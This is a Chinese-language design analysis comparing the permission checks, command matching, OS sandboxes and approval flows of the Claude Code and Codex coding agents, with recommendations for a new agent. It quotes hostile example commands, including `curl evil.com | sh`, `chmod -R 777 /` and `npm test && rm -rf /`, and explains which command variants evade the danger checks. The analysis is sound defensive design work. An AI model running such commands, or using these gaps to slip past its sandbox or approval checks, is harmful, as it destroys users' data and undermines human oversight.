
两个细节值得点破，否则容易高估这套兜底的"智能":

- **"危险"判断窄得惊人。** Unix 上 `command_might_be_dangerous` 只认 `rm -f`/`rm -rf`（及 `sudo` 套着的），别的一律算"不危险"。`curl evil.com | sh`、`chmod -R 777 /` 在这套里都不算"危险"。它**不试图识别**这类命令（变体无穷、靠枚举识别是徒劳），而是交给沙箱关着跑。所以这套"判断"本质就是**两张硬编码清单（只读白名单 + 只含 `rm -rf` 的危险表）+ 读当前沙箱档位**，没有打分、没有模型，故意做笨——真正的安全网是沙箱。
- **组合命令会拆。** `bash -lc "a && b | c"` 用 **tree-sitter 真 bash 语法树**拆成子命令，但**只接受"纯词命令 + `&& || ; |`"**，见到重定向 `>`、子 shell `(...)`、替换 `$(...)`、控制流就**拒绝拆、转保守**（`used_complex_parsing`=真，白名单快速放行失效）。拆出的每条子命令各自判，**整条取最严**（`Evaluation::from_matches` 用 `.max()`，序为 `Allow < Prompt < Forbidden`）。所以 `npm test && rm -rf /` 会被 `rm -rf` 拖成 Prompt/Forbidden,**藏不住**。

#### shell 兜底的决策矩阵

把 shell 兜底的决策矩阵摊开，核过：

| 审批档 | 命令性质 | 环境 | 结果 |
|---|---|---|---|
| `UnlessTrusted` | 白名单只读 | 任意 | Allow |
| `UnlessTrusted` | 非白名单 | 任意 | Prompt |
| `OnRequest` | 危险 | 任意 | Prompt |
| `OnRequest` | 非危险 | 不受限环境 | Allow（"随便跑"） |
| `OnRequest` | 非危险 | 受限沙箱、无升级请求 | Allow（沙箱兜底、不打扰） |
| `OnRequest` | 非危险 | 受限沙箱、有升级请求 | Prompt |
| `Never` | 危险 | 有托管沙箱 | **Forbidden** |
| `Never` | 危险 | 沙箱被显式关掉（danger-full-access） | Allow |
| `Never` | 非危险 | 任意 | Allow（靠沙箱保护） |

读这张表能读出 codex 的核心哲学：**默认档（`OnRequest`）下，非危险命令在受限沙箱里直接放行不打扰——因为沙箱会兜底**。这正是 0 节那句话：沙箱换不打断。

〔源码锚点：两层匹配——`.rules` 优先 + 逐命令兜底 `render_decision_for_unmatched_command` = `core/src/exec_policy.rs:308,292,628`，规则目录/默认文件 `~/.codex/rules/default.rules` = `core/src/exec_policy.rs:49-51`；只读白名单 `is_known_safe_command`（基础串 + `numfmt`/`tac` Linux、`base64`/`find`/`rg`/`git`/`sed` 条件项、`bash -lc` 拆子命令全在白名单才安全）= `shell-command/src/command_safety/is_safe_command.rs:73-168`，仅 `UnlessTrusted` 触发自动放行的门控 = `core/src/exec_policy.rs:657-662`；危险检测 `command_might_be_dangerous` 仅认 `rm -f`/`rm -rf`(+sudo) = `shell-command/src/command_safety/is_dangerous_command.rs:7,145,149`；tree-sitter 拆 `&& || ; |`、遇重定向/子 shell/替换转保守 `used_complex_parsing` = `shell-command/src/bash.rs:29,36-76`、`core/src/exec_policy.rs:789`，整条取最严 `Evaluation::from_matches().max()`（序 `Allow<Prompt<Forbidden`）= `execpolicy/src/policy.rs:366`、`execpolicy/src/decision.rs:7-16`；决策矩阵 = `core/src/exec_policy.rs:657-744`。〕

### 对照

- 两家面对的是**同一个敌人：命令变形绕过**（env 前缀、wrapper、复合命令、写危险文件）。
- claude 的解法偏**字符串战**：精/前缀/通配三类规则 + 复合拆解 + 非对称剥壳（放行保守、拦截激进）+ 危险路径硬拦。
- codex 的解法偏**语义战**：只读白名单（正面列举什么绝对安全）+ 危险检测（负面列举什么绝对危险）+ 其余交给沙箱；再加一层用户可写的 execpolicy 规则文件。
- 一个微妙共识：**"安全"要正面白名单（宁可漏放、不可错放），"危险"要尽量拦死**——和 claude 那个"放行保守、拦截激进"的不对称是同一个安全直觉。

### deepseek 落地

1. **别用裸前缀字符串匹配命令**，那是纸糊的。至少要做：复合命令拆开逐条判、前缀规则不许匹配整条复合串、匹配前把 env 前缀和 wrapper 剥干净。
2. **抄那个不对称：对"放行"保守（只剥确定安全的包装），对"拦截"激进（把所有伪装扒光、反复扒到不动）**。放行漏判顶多多问一次，拦截漏判就是真出事。
3. **"绝对安全的只读命令"用正面白名单**（像 codex 那串），**"绝对危险的"用负面黑名单**，中间地带交给沙箱或问用户。白名单里带参数的命令（`find`/`git`/`base64`）要逐个 flag 审——`find -exec`、`git` 的写子命令、`base64 -o` 都能从"只读"变"能搞事"。
4. **危险路径写操作设成 bypass-immune**：`.git/`（尤其 `.git/hooks`）、你自己 agent 的配置目录、shell 配置文件——改它们一律弹窗，任何"放行模式"都不能绕。这是真实提权面，不是洁癖。

---

## 决策三：沙箱 —— 第二道闸，真正的 OS 级隔离

### 问题

判定层说"准跑"之后，命令就要在你机器上真的执行了。但"准跑"不等于"随便碰"。第二道闸要回答：**这条命令跑起来，能读哪些文件、能写哪些文件、能不能联网？** 而且这道闸不能靠"命令自己守规矩"——得靠**操作系统强制**，因为命令本身是不可信的。这就是沙箱。

沙箱有两个正交的维度，别混：
- **沙箱策略（policy）**：意图——"应该只读 / 可写工作区 / 完全放开"。
- **沙箱类型/机制（type）**：手段——用哪个 OS 设施去**强制**这个意图（macOS 的 seatbelt、Linux 的 bwrap+seccomp、Windows 的受限令牌）。

### codex 侧：策略 4 档 + 机制按平台选 + 默认收紧

#### 策略 SandboxPolicy：意图的 4 档

**沙箱策略 `SandboxPolicy`**，4 变体，核过：

| 变体 | 含义 |
|---|---|
| `DangerFullAccess`(`danger-full-access`) | 毫无限制。**等于不套沙箱。** |
| `ReadOnly` | 文件系统只读；`network_access` 默认 `false`（不许联网）。 |
| `ExternalSandbox` | "我已经在一个外部沙箱里了"，内部给全盘访问，网络按传入的 `NetworkAccess`（`Restricted`/`Enabled`）来。 |
| `WorkspaceWrite`(`workspace-write`) | 在只读基础上，额外放开对 **cwd（"工作区"）+ `writable_roots` + 默认 TMPDIR + /tmp** 的写。字段全默认 `false`（保守）：`network_access`（默认不联网）、`exclude_tmpdir_env_var`、`exclude_slash_tmp`。 |

#### 机制 SandboxType：按平台选手段

**沙箱机制 `SandboxType`**，4 变体，由 `get_platform_sandbox` 按操作系统选：`None` / `MacosSeatbelt`(macOS)/ `LinuxSeccomp`(Linux)/ `WindowsRestrictedToken`（Windows，且开了 Windows 沙箱才有）。

机制具体怎么强制，是这一课最"硬核"的部分，核过源码：

#### macOS：sandbox-exec + 默认全禁的 SBPL

**macOS = `sandbox-exec` + 一份"默认全禁"的 SBPL 策略文件。**
- 把命令包成 `/usr/bin/sandbox-exec -p <策略串> -DKEY=路径 ... -- <真实命令>`。`/usr/bin/sandbox-exec` 是写死的绝对路径，不走 PATH——防止攻击者塞个假的进 PATH。
- 策略文件第一句就是 `(deny default)`（注释说思路抄 Chrome 沙箱）——**默认什么都不许，再逐条开口子**：允许 `process-exec`/`fork`、特定 sysctl 读、PTY 等。
- 可写根的开法：每个 writable_root 变成一句 `(allow file-write* (subpath (param "WRITABLE_ROOT_N")))`，实际路径用 `-DWRITABLE_ROOT_N=/abs/path` 传进去。
- **可写根里的 `.git`/`.codex`/`.agents` 被刻意挖成只读**（用 `(require-not (subpath ...))`）——哪怕整个工作区可写，这几个目录也不许动。源码注释说得很直白：防止 agent 改 `.git/hooks` 之类来提权。
- 网络：`network_access=false` 时**根本不用写 `(deny network*)`**——因为 `(deny default)` 已经把网络一起禁了，留空即可；要联网才显式 `(allow network-outbound)`。

#### Linux：bwrap 隔离 + seccomp 封 syscall 两段式

**Linux = `codex-linux-sandbox` 辅助二进制，两段式：先 bwrap、再 seccomp。**
- 主进程先 re-exec 进一个辅助二进制 `codex-linux-sandbox`。
- **第一段 bubblewrap(bwrap)**：建文件系统命名空间（bind mount 把该读的挂进来、可写根挂成可写）+ 网络命名空间。`network_access=false` → `--unshare-net`，直接给一个没有外部网络的新网络命名空间。
- **第二段 seccomp**：在已经被 bwrap 隔离的内层，再 re-exec 自己、设 `PR_SET_NO_NEW_PRIVS` + 装一张 seccomp BPF 过滤器。网络关掉时，它**直接封掉 `connect`/`bind`/`listen`/`sendto`… 这些网络 syscall**，`socket()` 只放过 `AF_UNIX`（本地进程通信还得能用）。另外永久封死 `ptrace`、`io_uring`（防沙箱逃逸硬化）。
- （代码里还留着一套老的 in-process **Landlock** 文件系统强制，但注释说现在文件隔离走 bwrap 了，Landlock 留作 fallback/参考。）

Linux 这套"先 bwrap 隔离、再 seccomp 封 syscall"的两段式，画成时序图最清楚：

#### DangerFullAccess、Windows、默认可写集

**`DangerFullAccess` = 不套沙箱。** 这条链核过：`danger-full-access` → 文件系统 kind `Unrestricted` → `should_require_platform_sandbox()` 返回 false → `SandboxType::None` → 命令原样直接跑、不加任何包装。判定层也配套：沙箱被显式关掉时，连危险命令在 `Never` 档都直接 Allow（没沙箱可兜，问也白问）。

**Windows**：机制完全不同——不是 AppContainer，而是**预先建一个专用低权限 Windows 用户账号**（`NetUserAdd`），用 `CreateProcessWithLogonW` 以该账号登录并起进程、`CreateRestrictedToken` 造受限令牌、在一个私有桌面（`CreateDesktopW`）上跑，网络用 WFP（Windows 过滤平台）防火墙规则管。提一句知道有这回事即可。

默认可写集（`WorkspaceWrite`）= **cwd + `$TMPDIR` + `/tmp`**（除非显式 exclude）。这是个务实选择：agent 干活总得有地方写临时文件，但默认不让它碰 cwd 以外的真实代码。

#### 这套沙箱真正在防什么

回答两个常被问到的疑问，能看清 codex 的防线到底建在哪：

- **"agent 用别的命令删文件怎么防？"** 答案有点反直觉：**基本不防，而且是故意的。** codex 的危险检测窄到只认 `rm -f`/`rm -rf`——`find . -delete`、`unlink`、`truncate`、`git clean -fd`、`python -c "os.remove(...)"`、甚至 `rm -r`（没带 `-f`）全都不算"危险"，默认档下在沙箱里直接跑、真删。因为**靠"识别危险命令"防破坏是必输的**（删除写法无穷无尽，黑名单是筛子）。codex 赌的是另外两层：**关得住**（沙箱把破坏半径锁死在可写工作区——删不到工作区外、碰不到系统）+ **救得回**（下一条）。
- **"为什么 `.git` 在可写区里也只读？"** 不只是防改 `.git/hooks` 提权——更是**把 git 焊成"撤销键"**:agent 可以随便改删你工作区的源码（快、不弹窗），但**毁不掉你的提交历史**，所以它删错了你永远能 `git restore` 拉回来。**把 undo 底座焊死，上面才敢放开让 agent 自由折腾。** 具体到 git 命令：`git status`/`log`/`diff`（读）在沙箱里静默跑、结果真实；`git commit`/`add`（写 `.git`）会撞上只读墙、需要提权才能继续——这正是"沙箱当裁判、撞墙才找你授权"的活例子。

一句话：**codex 不赌"我能认出危险命令"，赌的是"就算它干了坏事，也跑不出工作区、且 git 历史毁不掉、能还原"。** 沙箱（关得住）+ `.git` 只读（救得回）才是防线，`rm -rf` 黑名单只是面子。

〔源码锚点：`SandboxPolicy` 4 变体（`danger-full-access`/`ReadOnly`/`ExternalSandbox`/`workspace-write`，后者三 `false` 字段保守）= `protocol/src/protocol.rs:939`；`SandboxType` 4 变体 + `get_platform_sandbox` 按平台选 = `sandboxing/src/manager.rs:34,59`。macOS：`/usr/bin/sandbox-exec` 绝对路径（`MACOS_PATH_TO_SEATBELT_EXECUTABLE`，防 PATH 注入）+ `-p -DKEY` 包装 = `sandboxing/src/seatbelt.rs:25-29,731`、`sandboxing/src/manager.rs:354`，`(deny default)` 抄 Chrome = `seatbelt_base_policy.sbpl:3-4,8`，`.git`/`.codex`/`.agents` 用 `(require-not …)` 挖只读 = `sandboxing/src/seatbelt.rs:356-378`、注释 `protocol/src/protocol.rs:992`，网络关时返回空串靠 `(deny default)` 兜 = `sandboxing/src/seatbelt.rs:309,316-317`。Linux：re-exec `codex-linux-sandbox`（常量 `CODEX_LINUX_SANDBOX_ARG0`）= `sandboxing/src/landlock.rs:6`，两段式（`PR_SET_NO_NEW_PRIVS`+seccomp、封 `ptrace`/`io_uring`/网络 syscall、`socket()` 仅 `AF_UNIX`）= `linux-sandbox/src/landlock.rs:121,169,177-216`、`--unshare-net` = `linux-sandbox/src/bwrap.rs:280,326`、网络模式判定 `bwrap_network_mode` = `linux-sandbox/src/linux_run_main.rs:361`，Landlock 留作 fallback = `linux-sandbox/src/linux_run_main.rs:78-79`。`DangerFullAccess`→`Unrestricted`→`SandboxType::None` 原样跑 = `core/src/permissions.rs:1309`、`core/src/policy_transforms.rs:527`、`sandboxing/src/manager.rs:336`。Windows：`NetUserAdd`/`CreateProcessWithLogonW`/`CreateRestrictedToken`/`CreateDesktopW`/WFP = `windows-sandbox-rs/src/`（`bin/setup_main/win/sandbox_users.rs:115`、`elevated/runner_client.rs:38,275`、`token.rs:460`、`desktop.rs:95`、`wfp.rs:42`）。默认可写集 cwd+`$TMPDIR`+`/tmp` = `protocol/src/protocol.rs:1112,1143,1164`；危险检测仅 `rm -f`/`rm -rf` = `shell-command/src/command_safety/is_dangerous_command.rs:145,149`。〕

### claude 侧：沙箱是后加的、可选的，且作用是"让该问的 bash 不问了"

claude 的沙箱和 codex 有个定位差异：**它是后来加的、默认关的、可选项**。

- 开关 `sandbox.enabled` **默认 `false`**。不开就没有 OS 级隔离，纯靠决策一/二的权限规则。
- 开了之后，具体 OS 隔离委托给一个外部包 `@anthropic-ai/sandbox-runtime`（不在这份源码树里）：macOS 同样走 seatbelt,Linux 走 **bubblewrap + socat**（socat 做网络 MITM 代理）。机制思路和 codex 同源（seatbelt/bwrap），只是封装在独立包里。
- **最关键、也最能回扣 0 节那句话的一点：`autoAllowBashIfSandboxed`（默认 `true`）。** 看决策一流水线的 1b 步——本来有 ask 规则的 bash 命令要弹窗，但如果"沙箱开着 + 这条命令会被沙箱"，就**跳过这条 ask、直接放行**，交给 bash 自己的 `checkPermissions` 按命令规则定。换句话说：**claude 加沙箱的首要动机，就是"开了沙箱就别老问了"——用 OS 隔离换不打断。** 被排除在沙箱外的命令（`excludedCommands`、显式 `dangerouslyDisableSandbox`）仍然走正常权限询问。

〔源码锚点：`sandbox.enabled` 默认 `false` = `utils/sandbox/sandbox-adapter.ts:462`（外部包 `@anthropic-ai/sandbox-runtime` 导入 + bubblewrap/socat 引用 `:17,22,587`）；`autoAllowBashIfSandboxed` 默认 `true` = `utils/sandbox/sandbox-adapter.ts:471`，1b 步跳过 ask 直接放行（`canSandboxAutoAllow`，`shouldUseSandbox` 门控、排除命令仍照问）= `utils/permissions/permissions.ts:1184-1206`。〕

### 对照与收口

- **codex：沙箱是一等公民、默认就在**，审批策略和沙箱策略深度耦合（"能在沙箱里安全跑"就是"不用问你"的理由）。
- **claude：沙箱是后加的可选层、默认关**，但一旦开，作用同样落在"少打扰"上（`autoAllowBashIfSandboxed`）。
- 殊途同归：**两家都把沙箱当成"用 OS 级隔离换取减少打断"的手段，而不只是"出事了限制损害"**。这就是 0 节那句话，到这里闭环。

### deepseek 落地

1. **把"沙箱策略（意图）"和"沙箱机制（手段）"两个维度分开**。策略至少三档：只读 / 可写工作区 / 完全放开；机制按平台实现（mac seatbelt、Linux bwrap+seccomp），上层只认策略。
2. **默认收紧：读优先、网络默认关、写只给工作区**。可写默认集 = cwd + 临时目录，别默认给全盘。`danger-full-access` 留作显式逃生口，等于不套。
3. **可写工作区里也要把几个目录挖成只读**：`.git`（尤其 hooks）、你 agent 自己的配置目录。整个工作区可写、但这几个不行——这是 codex 用 `(require-not subpath)` 专门防的真实提权面。
4. **把沙箱当"不打断"的手段来设计，而不只是"兜底"**。明确一个像 `autoAllowBashIfSandboxed` 的策略：能被沙箱安全约束的命令，就别再弹窗。这是 coding agent 体验好坏的分水岭——但前提是你的沙箱真的拦得住，否则就是把安全网换成了遮羞布。
5. macOS 上 `sandbox-exec` 用绝对路径、Linux 上辅助二进制 + 两段式（命名空间隔离 + seccomp 封 syscall）、网络靠"默认全禁/unshare-net"而不是"逐条 deny"——这些都是经过实战的硬细节，实现时直接对着 codex 抄，别自己发明 SBPL/seccomp 规则。
6. **别把"防 agent 删/改坏文件"做成危险命令黑名单。** 删除和破坏的写法无穷无尽，黑名单永远是筛子（`rm -rf` 只是个面子）。真正的防线是**容器 + 可回滚**：沙箱把破坏半径锁死在工作区，再加一套能还原文件的底座。codex 的还原底座是用户的 git（所以它把 `.git` 焊成只读保住 undo）。但你的 deepseek **不能假设用户每步都 commit**，所以这个 undo 底座得你自己造——直接接第 5 课那套**编辑前 copyFile 文件快照 / 检查点**。**有了可回滚的底座，你才敢像 codex 那样放开让 agent 自由改文件、少弹窗；没有它，要么频繁弹窗烦死人，要么 agent 删错了救不回。**

---

## 决策四：审批交互与升级 —— 要问用户，这件事怎么做好

### 问题

判定结果是 `ask` 时，真得去问用户。这里有几个设计点：**怎么把"待审批"这件事从后台传到前台？用户答完能不能记住（一次 / 永久）？以及一个 coding agent 特有的精妙问题——命令在沙箱里跑失败了，要不要升级问"不带沙箱再来一次"?**

### 审批请求怎么传到前台

- **codex:oneshot channel + 事件总线**。要审批时，建一个一次性回传通道 `oneshot::channel`，把发送端登记进 `pending_approvals` 表，然后往 EQ（事件队列）发一个 `ExecApprovalRequest` 事件给前端，然后 `rx_approve.await` **挂起这条 turn**等回答。前端把用户的决定按 `call_id` 发回来，通道一收到就唤醒。——这正好呼应第 1 课的 SQ/EQ 和"持久化-交付"那套：审批就是一次"发事件出去、等回答回来"。
- **claude:React confirm 队列**。`ask` 结果走 `handleInteractivePermission`，往一个 React 确认队列里 push 一个 `ToolUseConfirm`，UI 渲染弹窗；hooks 和分类器在后台并行跑、和用户的点击赛跑，谁先有结论用谁（一个 `ResolveOnce` 防重复 resolve）。

### 答完能不能记住：一次 / 永久

- **claude：看 `onAllow` 带的 `PermissionUpdate[]` 落到哪**。
  - 允许一次 = 传空数组 `[]`，什么规则都不写，仅此一次。
  - 永久允许 = 带一条 `addRules` 更新，`destination` 决定落盘位置：`localSettings`（`.claude/settings.local.json`，项目本地、通常 gitignore）/ `projectSettings`（`.claude/settings.json`，可提交进仓库）/ `userSettings`（`~/.claude/settings.json`，全局）。只有这三个是真持久化；`session` 只活在内存里、退出即忘。
- **codex：`ReviewDecision` 枚举**涵盖了所有答法：`Approved`（批这一次）/ `ApprovedForSession`（本会话内同样的命令都自动批，缓存在内存 `tool_approvals` 表，key 是"命令+cwd+沙箱权限"的组合）/ `ApprovedExecpolicyAmendment`（**把这条命令前缀作为 allow 规则永久写进 `~/.codex/rules/default.rules`**）/ `NetworkPolicyAmendment`（永久记住"这个域名允不允许"）/ `Denied`（拒了、让模型换路）/ `Abort`（拒了、停下等用户）/ `TimedOut`。"永久"和"本会话"是两个不同的答法，落点不同（规则文件 vs 内存缓存）。

### coding agent 特有的精妙：沙箱失败升级

这是 codex 一个很值得学的设计。命令在沙箱里跑、结果被沙箱拦下来失败了（比如要写工作区外、或要联网），怎么办？——不是直接报错，而是**有条件地升级问用户"要不要不带沙箱重试"**:
- `OnFailure` / `UnlessTrusted` 档：**升级**——弹窗问"这条命令在沙箱里失败了，要不要放开沙箱重跑？"用户批了就以 `SandboxType::None` 再跑一次。
- `Never` / `OnRequest` 档：**不升级**——直接把失败错误还给模型，让模型自己想别的办法。
- 而且若这条命令之前已经 `ApprovedForSession`，重试时连问都免了（`bypass_retry_approval`）。

这套"先在盒子里试，失败了再问要不要出盒子"的升级流，把"安全默认"和"不卡死"调和得很好：绝大多数命令在沙箱里就跑完了，只有真需要更高权限的才打扰你一次。

升级流的时序：

### 顺带：两个"审批的扩展点"

#### Guardian：一个可选的 LLM 审批层

**Guardian（codex 可选）**：一个 LLM 审批层。配了它的话，本该问用户的请求先过一个 Guardian LLM agent 审一道，它能挡一批、放一批，减少人工审批。

#### hooks：能加严，不能解除硬限制

**hooks（claude / codex 都有）**：用户脚本可以编程式介入审批。claude 的 `PreToolUse` hook 能返回 `allow`/`deny`/`ask`（`permissionDecision` 字段）。**但有个关键优先级，核过**:**hook 的 `allow` 盖不过 settings 里的 deny/ask 规则**——hook 说"放"，还得再过一遍规则检查，撞上 deny 规则照样拒、撞上 ask 规则照样弹窗、撞上安全路径照样拦（源码把这条不变式写进了注释）；只有 hook 的 `deny` 是终局。codex 这边 hook 跑在 Guardian 和用户提示**之前**,hook 放行就跳过后面。设计意图一致：**hook 能加严，但不能轻易解除已有的硬限制**——否则一个 hook 又成了绕过权限的后门。

〔源码锚点：codex 审批传输 oneshot + `pending_approvals` + `ExecApprovalRequest` 事件 + `rx_approve.await` 挂起 turn（`request_command_approval`）= `core/src/session/mod.rs:2037,2055-2108`；claude `handleInteractivePermission` push `ToolUseConfirm` 进 React 队列、hooks/分类器后台赛跑、`ResolveOnce` 防重复 = `hooks/toolPermission/handlers/interactiveHandler.ts:70,92,414,444`。审批记忆：claude `onAllow(updatedInput, permissionUpdates)` = `hooks/toolPermission/handlers/interactiveHandler.ts:154`，仅 `localSettings`/`projectSettings`/`userSettings` 持久化（`session` 仅内存）`supportsPersistence` = `PermissionUpdate.ts:208-215`；codex `ReviewDecision` 7 答法（`Approved`/`ApprovedForSession`（`ApprovalKey`=环境+命令+cwd+沙箱权限）/`ApprovedExecpolicyAmendment` 写 `default.rules`/`NetworkPolicyAmendment`/`Denied`/`Abort`/`TimedOut`）= `protocol/src/protocol.rs:3792`、`core/src/exec_policy.rs:391-395`、`core/src/tools/shell.rs:95-101`。沙箱失败升级 `escalate_on_failure`/`wants_no_sandbox_approval`（`OnFailure`/`UnlessTrusted` 升级、`Never`/`OnRequest` 退回、`bypass_retry_approval` 跳过、`SandboxType::None` 重跑）= `core/src/tools/orchestrator.rs:290-419`、`core/src/tools/sandboxing.rs:355`。Guardian LLM 审批层（`start_approval_async` 的 guardian 分支）= `core/src/guardian/`、`core/src/tools/shell.rs:155-171`；hook 优先级——claude hook allow 仍过 deny/ask 规则检查（注释）= `services/tools/toolHooks.ts:322,372-405`、`permissionDecision` 字段 schema = `types/hooks.ts:74`，codex hook 跑在 Guardian/用户之前 = `core/src/tools/orchestrator.rs:486-531`、`core/src/tools/sandboxing.rs:348-350`。〕

### deepseek 落地

1. **审批请求走"发事件 + 挂起等回传"**（codex 的 oneshot + EQ 那套），别在判定函数里同步阻塞 UI。这跟你第 1 课的 SQ/EQ 架构天然契合。
2. **把"允许一次 / 本会话 / 永久"做成三个不同答法，落点不同**：一次=不写；本会话=内存缓存（key 用命令+cwd+权限组合，别只用命令字符串）；永久=写进规则文件并明确告诉用户落哪了。
3. **一定要做"沙箱失败升级"**：命令先在沙箱里跑，被拦下来再**按档**决定升级问还是把错误还给模型。这是 coding agent"敢默认上沙箱"又"不至于动不动卡住"的关键，直接抄 codex 的分档（失败升级 / 安静退回）。
4. **hook / 外部审批层可以加严，但不能解除硬限制**：留扩展点让用户脚本介入，但钉死"放行类介入仍要过 deny/危险路径检查"，别让扩展点变成权限后门。

---

## 决策五：一致性与安全底线

把前四节的散点收成一张"底线清单",claude 和 codex 都守着。每条都对应一类真实事故：

1. **deny 永远最先判，allow 永远最后判。** "既允许又拒绝"时拒绝赢（claude 流水线 1a 在 2b 之前）。规则冲突的语义必须是"拒绝优先"，不能含糊。

2. **最松的模式也要留拦不住的硬例外。** `bypassPermissions`/`Never` 再松，也挡不住：用户显式配的 ask 规则、需要交互的工具、危险路径写操作（claude 的 1e/1f/1g 全部排在 bypass 之前）。"全部放行"绝不等于"连保命的也放行"。

3. **危险路径写操作 bypass-immune。** `.git/`（尤其 `.git/hooks`）、agent 自己的配置目录、shell 配置文件——改它们一律问，任何模式不能绕。可写工作区里也要把这几个目录挖成只读（codex 的 `(require-not subpath)`）。这是真实提权面。

4. **命令匹配要防变形绕过。** 复合命令拆开逐条判、前缀规则不匹配整条复合串、env 前缀和 wrapper 剥干净；且"放行"剥得保守、"拦截"剥得激进。一条都松不得。

5. **"安全"靠正面白名单，"危险"靠负面黑名单，中间交给沙箱。** 宁可漏放（多问一次）、不可错放（放进一条危险命令）。白名单里带参数的命令逐 flag 审。

6. **沙箱默认收紧、且要真能强制。** 默认只读 + 不联网 + 只写工作区；隔离靠 OS 强制（seatbelt/bwrap+seccomp），不靠命令自觉；`sandbox-exec` 用绝对路径、网络靠"默认全禁/unshare-net"。

7. **沙箱失败不静默放行。** 要么按档升级问用户"要不要出盒子"，要么把错误还给模型——绝不能"沙箱拦下了但悄悄当成功"。

8. **审批可记忆，但永久要写明白。** 一次 / 本会话 / 永久三种答法落点不同；永久落盘要让用户知道写到了哪个文件，能找到、能撤。

### deepseek 落地

把这八条做成权限模块的验收清单：① 拒绝优先、允许垫底；② 最松模式留硬例外；③ 危险路径 bypass-immune;④ 命令匹配防变形；⑤ 安全白名单 + 危险黑名单 + 沙箱兜中间；⑥ 沙箱默认收紧、OS 强制；⑦ 沙箱失败不静默；⑧ 审批记忆落点透明可撤。每一条都对应一个"否则会出的事故"，写测试逐条钉。

---

## 设计反思：为什么 codex 的判定看起来更复杂

读到这，很容易冒出一个直觉：**codex 的判定逻辑（两条路径、5 档审批 × 4 档沙箱 × 命令危险性的矩阵、失败升级流）比 claude 那条"从上往下、命中即停"的流水线复杂多了，是不是过度设计？** 这个问题值得正面回答，因为答案会直接影响 deepseek 该抄哪边。

### 复杂度是守恒的，只是放的位置不同

**codex 的复杂度长在"决策"上，claude 的长在"匹配"上。** 你打开权限模块先看到的就是决策逻辑，所以 codex 那堆枚举和矩阵第一眼就吓人；而 claude 的复杂度藏在每个工具自己的 `checkPermissions` 里——Bash 那套复合命令拆解、前缀提取、放行/拦截非对称剥壳、剥到不动的 fixed-point 循环，**一点都不简单，只是你没翻进工具层去看**。把两边的总复杂度摆平，其实一个量级。

而且 claude 的"简单直接"有一半是错觉：它还有 7 个权限模式（含内部 auto/bubble）、hook 两套并存的 schema（老 `decision` + 新 `permissionDecision`）、一串 bypass-immune 的挖洞、分类器 auto 模式——也是层层累积出来的特例堆。

### 根因：是"默认姿态"决定了下游的全部复杂度

两边判定繁简的差别，几乎全部来自一个选择：

> **claude 的默认是"不确定就问人";codex 的默认是"塞进沙箱里直接跑、尽量别问人"。**

- 兜底是**人** → 机器可以笨：规则没匹配上就弹窗。人是安全网，代码不用聪明，逻辑自然线性直接。
- 兜底是**沙箱** → 机器自己就得判断安全：这命令危险吗？有沙箱吗？沙箱罩得住吗？沙箱拦下了要不要升级问？——于是必然得到一张矩阵，外加"先在盒子里试、失败再升级"的重试流。

**一句话：复杂度没消失，它在"代码"和"人的注意力"之间搬家。** claude 把复杂度推给了用户（你被多问几次），codex 把它吃进了代码（换你少被打断）。哪个更好，取决于你更在乎代码简单，还是体验不被打断。

### 该付的复杂 vs 不该付的复杂

| | codex 的复杂 | 判断 |
|---|---|---|
| **该付** | 两条决策路径（补丁 / 命令） | 这俩是**本质不同的安全问题**（"写的路径在可写根内吗" vs "命令危险/白名单/能沙箱吗"）。claude 其实**也分叉**，只是藏在工具层、没摆到最上层。codex 只是更显式，不算冤。 |
| **该付** | `Never` 档 + 独立的 `Forbidden` 态 | claude 几乎不需要，因为它假设总有个人能问。codex 要跑 CI / 云端 / 无人值守，**那种场景"问人"根本不是选项**，机器必须能自己下"禁掉"这个结论。运行形态更多 → 分支更多，是规模的代价。 |
| **不该付** | `OnFailure` 已标 DEPRECATED 却没清出枚举；`safety.rs` 留着维护者亲笔 `// TODO: 我不确定这对不对`；`Granular` 在 5 变体上再叠 5 个布尔 | 历史包袱 + 组合爆炸 + 连作者都没把握。**在一个安全边界的核心判定里看到"不确定对不对"，是个强信号：逻辑复杂到反审计了。** |

最后一行引出一个领域判断：**权限是安全边界，而对安全边界来说，"可审计的简单"本身就是一种功能**——你能一眼读懂、能说服自己它没漏洞。复杂矩阵天生反审计。所以"这块简单点更好"不只是审美，是有工程依据的偏好。

### deepseek 落地

1. **先拍默认姿态（问人 vs 沙箱跑），再谈实现**。这是真正该 PM 拍板的一件事——它决定你后面所有的判定复杂度。
2. **M0 抄 claude 的形状**：一条线性、deny 最先 allow 垫底、默认问的流水线。**正确可审计 > 聪明。**
3. **沙箱即"不打断" + 失败升级，值得早抄**，但可以**外挂在简单内核之上**——claude 的 `autoAllowBashIfSandboxed` 就证明了"简单流水线 + 一个沙箱旁路开关"完全可行，你不必为这份收益吞下整张矩阵。
4. **矩阵 / `Never` / `Granular` 留到长出广度（CI、云端、多 agent、无人值守）再上**。现在就付这份复杂度，等于给自己挖一个"不确定对不对"的坑。

---

## 速查表

| 维度 | claude | codex | deepseek 结论 |
|---|---|---|---|
| ① 判定结果 | `PermissionResult` 四态（allow/ask/deny/**passthrough** 内部用） | 两条路径：补丁→`SafetyCheck`(AutoApprove/AskUser/Reject);shell→`Decision`(Allow/Prompt/**Forbidden**) | 小封闭枚举 allow/ask/deny（+可选 forbidden） |
| ② 判定结构 | 一条**十步短路流水线**（1a deny→…→1g 安全路径→2a bypass→2b allow→3 passthrough转ask） | 策略×沙箱可用性×命令危险性的**矩阵**，按工具分两条路径 | 固定顺序、命中即返回；deny 最先、allow 最后 |
| ③ 总档旋钮 | 权限模式：default/acceptEdits/bypassPermissions/plan（软）/dontAsk（+内部 auto） | `AskForApproval`:UnlessTrusted/OnFailure（弃）/OnRequest（默认）/Granular/Never | 模式调总松紧，但留拦不住的硬例外 |
| ④ 命令匹配 | 规则 `Bash(npm:*)` 三类；复合拆解；**放行保守/拦截激进**地剥 env+wrapper；危险路径 bypass-immune | execpolicy `.rules` 优先；兜底用**只读白名单（仅 UnlessTrusted 生效）+ 危险检测** | 拆复合、剥伪装、白名单+黑名单、危险路径硬拦 |
| ⑤ 沙箱策略 | 后加可选，`sandbox.enabled` **默认 false**；开了走 seatbelt/bwrap（外部包） | 一等公民：`SandboxPolicy` 4 档（read-only/workspace-write/danger-full-access/external）；默认 workspace-write、不联网 | 策略（意图）与机制（手段）分离；默认只读+不联网+只写工作区 |
